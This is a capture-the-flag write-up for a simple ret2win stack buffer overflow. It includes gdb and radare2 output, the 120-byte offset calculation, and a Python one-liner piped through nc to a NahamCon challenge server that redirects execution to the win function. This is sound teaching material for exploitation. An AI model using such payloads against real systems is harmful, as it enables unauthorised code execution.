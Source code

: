 A very basic buffer overflow -> ovewrite return address exploitation challange. Goal was to execute "win" function and display flag. Below steps to exploit binary:

1. Find "win" function address

```
gdb ret2basic

Non-debugging symbols:
0x0000000000401000  _init
0x0000000000401030  free@plt
0x0000000000401040  puts@plt
0x0000000000401050  fclose@plt
0x0000000000401060  setbuf@plt
0x0000000000401070  printf@plt
0x0000000000401080  rewind@plt
0x0000000000401090  fgets@plt
0x00000000004010a0  ftell@plt
0x00000000004010b0  gets@plt
0x00000000004010c0  malloc@plt
0x00000000004010d0  fseek@plt
0x00000000004010e0  fopen@plt
0x00000000004010f0  exit@plt
0x0000000000401100  _start
0x0000000000401130  _dl_relocate_static_pie
0x0000000000401140  deregister_tm_clones
0x0000000000401170  register_tm_clones
0x00000000004011b0  __do_global_dtors_aux
0x00000000004011e0  frame_dummy
0x00000000004011e6  setup
0x0000000000401215  win
0x000000000040130f  vuln
0x000000000040133c  main
0x0000000000401360  __libc_csu_init
0x00000000004013d0  __libc_csu_fini
0x00000000004013d8  _fini
(gdb)
```

2. Check vulnerable function overflow:

```
[0x00401215]> s sym.vuln
[0x0040130f]> pd
            ;-- vuln:
            0x0040130f      55             push rbp
            0x00401310      4889e5         mov rbp, rsp
            0x00401313      4883ec70       sub rsp, 0x70
            0x00401317      488d3d3c0d00.  lea rdi, qword str.Can_you_overflow_this_: ; 0x40205a ; "Can you overflow this?: "
            0x0040131e      b800000000     mov eax, 0
            0x00401323      e848fdffff     call sym.imp.printf
            0x00401328      488d4590       lea rax, qword [rbp - 0x70]
            0x0040132c      4889c7         mov rdi, rax
            0x0040132f      b800000000     mov eax, 0
            0x00401334      e877fdffff     call sym.imp.gets
            0x00401339      90             nop
            0x0040133a      c9             leave
            0x0040133b      c3             ret
```

3. Calculate buffer length:
0x70 + 0x8 = 120 - buffer length 

Overflow stack frame to return to address of the function win

` (python -c "print 'A'*120 + '\x15\x12\x40'") | nc challenge.nahamcon.com 30384`
